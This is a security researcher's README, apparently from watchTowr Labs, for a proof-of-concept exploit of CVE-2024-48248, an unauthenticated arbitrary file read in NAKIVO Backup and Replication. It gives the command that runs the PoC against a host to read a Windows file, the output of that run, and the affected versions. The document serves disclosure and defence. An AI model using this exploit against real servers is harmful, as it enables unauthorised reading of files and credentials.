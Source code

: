
# CVE-2024-48248
NAKIVO Backup and Replication Solution: Unauthenticated Arbitrary File Read Proof of Concept
 
See our [blog post](https://labs.watchtowr.com/) for technical details

# Detection in Action


```
python3 watchtowr-vs-nakivo-arbitrary-file-read-poc-CVE-2024-48248.py --url https://192.168.1.1:4443 --file "C:\\windows\\win.ini"
         __  _  ______ _/  |__ ____ |  |_\__    ____\____  _  ________ 
         \ \/ \/ \__  \    ___/ ___\|  |  \|    | /  _ \ \/ \/ \_  __ \
          \     / / __ \|  | \  \___|   Y  |    |(  <_> \     / |  | \/
           \/\_/ (____  |__|  \___  |___|__|__  | \__  / \/\_/  |__|   
                                  \/          \/     \/                            
          
        watchtowr-vs-nakivo-arbitrary-file-read-poc-CVE-2024-48248.py
        (*) Nakivo Unauthenticated Arbitrary File Read (CVE-2024-48248) POC by watchTowr
        
          - Sonny , watchTowr (sonny@watchTowr.com)

        CVEs: [CVE-2024-48248]
        
[*] Targeting https://192.168.1.1:4443
[*] Attempting to read file 'C:\windows\win.ini'
[*] File Contents:
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1

```

# Description

This script is a proof of concept for CVE-2024-48248, targeting the NAKIVO Backup and Replication Solution. More details are described within our [blog post] (https://labs.watchtowr.com/).

# Affected Versions

* NAKIVO Backup and Replication Solution 10.11.3.86570 and below


# Follow [watchTowr](https://watchTowr.com) Labs

For the latest security research follow the [watchTowr](https://watchTowr.com) Labs Team 

- https://labs.watchtowr.com/
- https://x.com/watchtowrcyber
